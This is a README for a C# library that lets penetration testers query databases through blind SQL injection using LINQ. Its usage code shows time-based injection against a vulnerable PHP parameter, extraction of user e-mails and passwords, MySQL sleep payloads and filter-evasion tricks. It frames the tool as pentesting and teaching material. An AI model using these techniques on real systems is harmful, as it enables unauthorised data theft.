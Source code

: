# Execute LINQ queries through SQL Injection vulnerabilities

> The sharpest tool for SQL Injection.

This is a tool for penetration testers to support manual analysis of SQL injection vulnerabilities. It provides a way to query data through a vulnerability using LINQ like the data were in a regular database. Since queries are expressed as expression trees, the translation of them can be fine-tuned in to every detail.

It also serves educational purposes on LINQ, Expression Trees and Query Providers.

**It is not intended to test or attack any target without prior mutual consent.** See Disclaimer below.

## Usage

Set up services:

```csharp
IServiceCollection services = new ServiceCollection();
services.AddLogging(options => options.AddConsole().SetMinimumLevel(LogLevel.Trace));
services.AddSqlInjection(
    database => database.UseMySql(),
    attack => attack.UseTimeBased(...)
);

IServiceProvider provider = services.BuildServiceProvider();
```

Getting the attack:

```csharp
var injection = provider.GetRequiredService<BlindSqlInjection>();
```

Running queries:

```csharp
// get database name
var database = await injection.Context.GetDatabaseNameAsync();

// find users table
var usersTable = await injection.Context.InformationSchema.Tables
    .Where(t => t.Schema == database)
    .Where(t => t.Name.Like("%user%"))
    .Select(t => t.Name)
    .FirstAsync();

// acquire the e-mail of the first registered user
var email = await injection.Context.Current.GetTable(usersTable)
    .OrderBy(d => d["id"])
    .Select(d => d["email"])
    .FirstAsync(estimatedLength: 20);

// acquire the password
var password = await injection.Context.Current.GetTable(usersTable)
    .OrderBy(d => d["id"])
    .Where(d => d["email"] == email)
    .Select(d => d["password"])
    .FirstAsync(estimatedLength: 40);
```

## Set up an attack

### Time-based blind attacks
You have to implement the function to inject the SQL query and set the initial values for the timing attack.

```csharp
services.AddSqlInjection(
    database => database.UseMySql(),
    attack => attack.UseTimeBased(new TimeBasedBlindSqlInjectionOptions
    {
        InjectAsync = InjectAsync,
        InjectedWaitTime = TimeSpan.FromMilliseconds(1000),
        SuccessfulTime = TimeSpan.FromMilliseconds(500),
    }
);

static async Task InjectAsync(string sql)
{
    await http.GetAsync($"/vulnerable.php?param={Uri.EscapeUriString(sql)}");
}
```

### Boolean-based attacks

TODO

## The data context

### Current database

You can access the current database from the data context like this:

```csharp
var users = injection.Context.Current.GetTable("users")
    .OrderBy(u => u["email"])
    .Select(u => u["email"])
    .ToListAsync();
```

Since the schema of every database can be different, entities are dynamic. You can access columns by providing their names are string. To differentiate between types, you can use the following functions of `DynamicEntity`:

```csharp
.OrderBy(u => u["email"]) // string
.OrderBy(u => u.String("email")) // string
.OrderBy(u => u.Integer("id")) // int
```

### Another database

You can access any database through the data context by calling `injection.Context.GetDatabase("name")`.

### Information schema

For example, you can list tables names like this:

```csharp
var database = await injection.Context.GetDatabaseNameAsync();
var tables = await injection.Context.InformationSchema.Tables
    .Where(t => t.Schema == database)
    .OrderBy(t => t.Name)
    .Select(t => t.Name)
    .ToListAsync();
```

### MySQL database

TODO

## Functions

You can import MySQL functions:

```csharp
using static MySqlFunctions;
```

And then you can easily access them in a query:

```csharp
.Select(d => If(Ascii(Substring(Database(), 1, 1)).Between(97, 122), NULL, Sleep(1)))
```

## Rendering queries
You can create and register your own SQL writer:

```csharp
services.AddScoped<SqlWriter, CustomSqlWriter>();
```

#### Change quotes for string literals

```cs
class CustomSqlWriter : MySqlWriter
{
    public override void WriteString(string str) => Write($"\"{Escape(str)}\"");
}
```

#### Omit optional white-space

```csharp
class CustomSqlWriter : MySqlWriter
{
    public override void WriteOptionalWhiteSpace() { };
}
```

#### Replace white-space with comments

```csharp
class CustomSqlWriter : MySqlWriter
{
    public override void WriteWhiteSpace() => Write("/**/");
}
```

## Limitations
 - Only MySQL is supported.
 - Translation of advanced queries (joins, group by) are not supported.

## Disclaimer

Usage of this tool for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program.